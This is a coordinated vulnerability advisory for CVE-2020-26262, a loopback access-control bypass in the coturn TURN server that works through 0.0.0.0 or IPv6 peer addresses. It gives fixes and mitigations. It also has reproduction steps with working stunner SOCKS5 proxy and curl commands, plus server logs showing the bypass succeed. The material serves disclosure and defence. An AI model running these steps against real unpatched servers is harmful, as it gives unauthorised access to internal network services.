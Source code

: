 # Loopback access control bypass in coturn by using `0.0.0.0`, `[::1]` or `[::]` as the peer address

- Fixed version: 4.5.2
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-01-coturn-access-control-bypass
- Coturn Security Advisory: https://github.com/coturn/coturn/security/advisories/GHSA-6g6j-r9rf-cm7p
- Other references:
    - CVE-2020-26262
    - https://www.rtcsec.com/post/2021/01/details-about-cve-2020-26262-bypass-of-coturns-default-access-control-protection/
- Tested vulnerable versions: 4.5.1.x
- Timeline:
    - Report date: 2020-11-20
    - Issue confirmed by coturn developers: 2020-11-23
    - Security patch provided by Enable Security: 2020-11-30
    - Refactoring by coturn developers: 2020-12-07 to 2020-12-10
    - Joint Enable Security and Coturn project advisory publication: 2021-01-11

## Description

By default coturn does not allow peers to connect and relay packets to loopback addresses in the range of `127.x.x.x`. However, it was observed that when sending a `CONNECT` request with the `XOR-PEER-ADDRESS` value of `0.0.0.0`, a successful response was received and subsequently, `CONNECTIONBIND` also received a successful response. Coturn then was able to relay packets to local network services.

Additionally, when coturn was listening on IPv6, which is the default setting, local services could also be reached by making use of either `[::1]` or `[::]` as the peer address.

## Impact

By using the address `0.0.0.0` as the peer address, a malicious user will be able to relay packets to the loopback interface, unless `--denied-peer-ip=0.0.0.0` (or similar) has been specified. Since the default configuration implies that loopback peers are not allowed, coturn administrators may choose to not set the `denied-peer-ip` setting. Similar implications apply to the IPv6 equivalent of `[::1]` and `[::]`.

## How we reproduced the issue

1. Run coturn using the following command:

       turnserver -v --user=username1:password1
1. Run our internal tool `stunner`, acting as a socks5 proxy which uses TURN.

       stunner turn peer proxy socks5 tcp://172.17.0.2:3478 \
           --local-bind 0.0.0.0:9999 -u username1:password1
1. Run a cURL command to connect to `127.0.0.1:80`.

       curl -x socks5h://127.0.0.1:9999 http://127.0.0.1
1. The following log was observed, confirming that `127.0.0.1` is being blocked:

       725: IPv4. tcp or tls connected to: 172.17.0.1:36504
       725: session 011000000000000001: realm <172.17.0.2> user <>: 
           incoming packet message processed, error 401: Unauthorized
       725: IPv4. Local relay addr: 172.17.0.2:51705
       725: session 011000000000000001: new, realm=<172.17.0.2>, username=<username1>, 
           lifetime=600
       725: session 011000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet ALLOCATE processed, success
       725: session 011000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet CONNECT processed, error 403: Forbidden IP
       725: session 011000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet message processed, error 403: Forbidden IP
1. Run a cURL command to connect to `0.0.0.0:80`.

       curl -x socks5h://127.0.0.1:9999 http://0.0.0.0
1. The following log was observed, confirming that the loopback protection has been bypassed:

       1010: IPv4. tcp or tls connected to: 172.17.0.1:37240
       1010: session 005000000000000001: realm <172.17.0.2> user <>: 
           incoming packet message processed, error 401: Unauthorized
       1010: IPv4. Local relay addr: 172.17.0.2:62504
       1010: session 005000000000000001: new, realm=<172.17.0.2>, 
           username=<username1>, lifetime=600
       1010: session 005000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet ALLOCATE processed, success
       1010: session 005000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet CONNECT processed, success
       1010: IPv4. tcp or tls connected to: 172.17.0.1:37242
       1010: session 000000000000000001: client socket to be closed in client handler
       1010: session 000000000000000001: usage: realm=<172.17.0.2>, username=<>
       1010: session 005000000000000001: realm <172.17.0.2> user <username1>: 
           incoming packet CONNECTION_BIND processed, success
       1010: session 000000000000000001: peer usage: realm=<172.17.0.2>
       1010: session 000000000000000001: closed (2nd stage), user <> 
           realm <172.17.0.2> origin <>, local 172.17.0.2:3478, 
           remote 172.17.0.1:37242, reason: general

The 5th step could be repeated with the URL of `http://[::1]` and `http://[::]` where one would also bypass the default protection against loopback connections.

## Solution and recommendations

We recommend upgrading coturn to the latest version, 4.5.2 which fixes this issue.

To mitigate this issue in previous versions, the addresses in the address block `0.0.0.0/8` should be denied by making use of the `denied-peer-ip` configuration setting. The following is an example configuration that prevents access to `0.0.0.0`:

```
denied-peer-ip=0.0.0.0-0.255.255.255
```

Additionally, as a mitigation step when the patch cannot yet be applied, we recommend disabling IPv6 if not required by listening on an IPv4 IP address. See our blog post for an [explanation][1] for this recommendation.

[1]: https://www.rtcsec.com/post/2021/01/details-about-cve-2020-26262-bypass-of-coturns-default-access-control-protection/#faq

Enable Security would like to thank Mészáros Mihály and the developers at Coturn for the very quick response and fixing this security issue.


## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

